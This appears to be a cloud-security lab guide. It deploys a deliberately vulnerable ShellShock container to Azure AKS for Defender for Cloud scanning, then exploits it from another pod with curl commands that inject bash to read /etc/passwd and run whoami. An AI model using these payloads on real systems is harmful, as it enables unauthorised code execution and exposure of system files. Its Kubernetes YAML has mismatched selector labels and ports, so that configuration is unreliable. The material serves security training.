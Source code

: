 # In this lab we will use a ShellShock vulnerable docker image from the Docker Hub, store it in the Azure ACR and from there deploy to Azure AKS

We will exploit Shell-Shock vulnerabilities to execute RCE from an attaker por running in the same cluster

Login to your Azure ACR registry where you will push the vulnerable image

```
docker login [LOGINSERVER] –u [USERNAME] –p [PASSWORD]
```

Download the shellshock container to your local build machine

```
docker pull vulnerables/cve-2014-6271
```

Run the following commands to properly tag your images to match your ACR account name.

```
 docker tag  vulnerables/cve-2014-6271  [ACR-LOGINSERVER]/cve-2014-6271
 ```

 push docker image to ACR


```
 docker push [ACR-LOGINSERVER]/cve-2014-6271
 ```
In the Azure Portal, navigate to your ACR account, and select Repositories under Services on the left-hand menu

Defender for cloud will trigger the scan in the ACR registry to look for vulnerabilities in the image

Now, we will deploy a kubernetes pod using the shell-shock image stored in the ACR

Note we export the pod using the port 8080

As we will connect from another pod in the cluster to exploit RCE vulnerabilities of this container, we need to create a Kubernetes Service and map it to this deployment using match labels

```
apiVersion: v1
kind: Service
metadata:
  name: service-shell-shock
spec:
  type: ClusterIP  # ClusterIP is the default service type even if not specified
  selector:
    tag: shell-shock
  ports:
  - name: port8080
    protocol: TCP
    port: 8080  # this is the service port
    targetPort: 80 # this is the container port
```

```
apiVersion: apps/v1
kind: Deployment
metadata:
  name: shell-shock
spec:
  selector:
    matchLabels:
      app: shell-shock
  template:
    metadata:
      labels:
        app: shell-shock # the label for the pods and the deployments
    spec:
      containers:
      - name: shell-shock
        image: k8sgoatacr.azurecr.io/cve-2014-6271:latest # IMPORTANT: update with your own repository
        imagePullPolicy: Always
        ports:
        - containerPort: 8080 
```
Get the pods ip address using 

```
kubectl get pods -o wide
```

Enter into the shell-shock container

```
kubectl exec -it [shell-shock-pod] -- /bin/bash
````

And from the nginx pod in the cluster, we wille exploit RCE

```
kubectl exec -it [name-nginx-attacker-pod] -- /bin/bash
```

From here, issue commands to list /etc/passwd

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://[ip-address-shell-shock-pod]:80/cgi-bin/vulnerable
```
and
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" http://[ip-address-shell-shock-pod]/cgi-bin/vulnerable
```



